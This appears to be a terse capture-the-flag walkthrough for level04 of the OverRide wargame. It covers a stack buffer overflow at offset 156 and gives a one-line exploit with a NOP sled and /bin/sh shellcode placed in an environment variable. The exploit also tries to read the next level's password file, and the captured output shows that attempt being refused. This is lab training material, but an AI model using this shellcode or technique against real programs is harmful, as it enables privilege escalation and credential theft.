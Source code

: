 ### step 1: Decompile with Ghidra

We get the c source code of the program  

### step 2: Code analysis



segfault au 156ème char

( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04

( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat "/home/users/level05/.pass" ) | env -i SHELLC
ODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08
\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04

level04@OverRide:~$ ( python -c 'print("A" * 156 + "\xae\xde\xff\xff")' ; cat "/home/users/level05/.pass" ) | env -i SHELLC
ODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08
\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level04
cat: Give me some shellcode, k
no exec() for you
/home/users/level05/.pass: Permission denied
